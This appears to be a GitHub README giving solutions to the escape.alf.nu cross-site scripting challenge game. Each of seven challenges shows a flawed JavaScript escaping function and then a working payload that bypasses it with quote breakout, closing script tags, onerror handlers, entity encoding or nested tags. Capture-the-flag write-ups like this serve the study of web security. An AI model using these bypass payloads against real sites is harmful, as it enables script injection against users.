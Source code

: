# escape.alf.nu

> alert(1) to win
 
## Challenges
- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [DOM](#dom)
- [Skandia](#skandia)
- [JSON2](#json2)

## Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Solution

```
",alert(1),"
```

## Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

## JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

## Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

## DOM

- Task

```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

- Solution

```
Comment#--><img src onerror=alert(1)
```

- HTML source

```
<!----><img src onerror=alert(1)-->
```

## Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```
